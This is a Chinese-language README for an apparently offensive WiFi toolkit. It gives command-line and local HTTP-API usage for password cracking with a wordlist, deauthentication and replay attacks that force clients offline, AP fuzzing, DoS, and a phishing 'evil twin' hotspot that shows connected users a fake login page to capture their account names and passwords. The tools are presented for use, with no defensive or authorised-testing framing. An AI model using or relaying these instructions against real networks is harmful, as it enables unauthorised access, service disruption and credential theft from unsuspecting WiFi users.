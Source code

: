 ## V2.0
### wifi_password_crack.py

使用python3 wifi_password_crack.py
另起一个终端执行:
`curl -d '{"bssid":"AP_bssid","dssid":"client_bssid","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10001/start`
静待60秒喝口咖啡大概率会出

### wifi_fuzz.py
使用python3 wifi_fuzz.py
`curl -d '{"ssid":"AP_ssid","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10002/start`

### wifi_mimt.py
`curl -d '{"ssid":"eval","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10003/start`


### wifi_ddos.py
`curl -d '{"ssid":"AP_ssid","device":"wlan0"}' -H "Content-Type: application/json" -X POST 127.0.0.1:10004/start`


## V1.0
### wifi.py

-device 指定网卡设备,若不指定此项则会使用wlan0
-bssid 必选项 若不指定无法正常工作
-w 指定字典 若不填则默认/usr/wordlist/rockyou.txt
-dssid 若使用a模式 则需要设置为被攻击设备的bssid

-mode 指定攻击模式,若不指定则默认使用s
	s 扫描模式 若指定-bssid则监听指定设备,若不指定则会进行全信道的扫描
	a 重放攻击,需要使用-dssid指定被攻击的设备
	c 破解模式,可使用-w来指定字典

python wifi.py 
进入扫描模式

python wifi.py -bssid [bssid]
监听此bssid的设备

python wifi.py -mdoe a -bssid [bssid] -dssid [dssid]
进行重放攻击 ,使设备强制离线重连(使用此选项时应该另开一个新终端以保证能一直进行抓包)

python wifi.py -mode c -w [passwordlist]
对wifi密码进行破解,-w选项可进行选填

-----

### wifi_MITM.py
使用此工具前应当先安装wifipumpkin3并确认能正常运行

-i 指定监听的网卡设备,若不指定则默认为wlan0
-ssid 必填项,指定要伪装的ssid
-p 代理模式
	0 无代理模式
	1 在 TCP 协议上拦截网络流量的代理
	2 允许阻止用户访问互联网，直到打开登录页面输入用户名和密码

sudo wifi_MITM.py -ssid [ssid]
此选项会根据指定的ssid名称来生成一个钓鱼wifi

sudo wifi_MITM.py -ssid [ssid] -p 2
此选项会根据指定的ssid名称来生成一个钓鱼wifi,用户连接后将会跳转至登录界面并要求输入账户名和密码
